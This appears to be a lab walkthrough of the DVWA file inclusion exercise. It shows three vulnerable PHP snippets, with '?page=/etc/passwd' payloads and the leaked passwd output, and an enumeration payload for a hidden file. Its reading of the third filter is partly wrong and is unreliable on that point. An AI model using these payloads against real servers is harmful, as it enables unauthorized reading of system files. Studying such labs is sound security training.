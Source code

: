 # Vulnerable Code 1
This code gets "page" parameter via GET request and show to the user.

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];
?>
```


## Abuse

The problem here there is no input validation which we can include any file and read content of it.

## Payload

```php
?page=/etc/passwd
```


## Result


```php
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin 
	sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin 
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sb....
```

# Vulnerable Code 2

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```

## Abuse

The problem here, there is input sanitizing but it prevent us to include relative files, still we can include absolute path inside of machine

## Payload

```php
?page=/etc/passwd
```

## Result

```php
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin 
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail....
```

# Vulnerable Code 3

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

## Abuse

Problem here code get a file and there is 2 condition:

- File should start with "file"
- File shouldn't be "include.php"

application expect us to read content of "file1" "file2" "file3" if we enumerate numbers near the files we can read secret file that doens't shown the user

## Payload

```php
?page=file4.php
```

## Result

```php
Good job!
This file isn't listed at all. If you are reading this, you did something right ;-)
```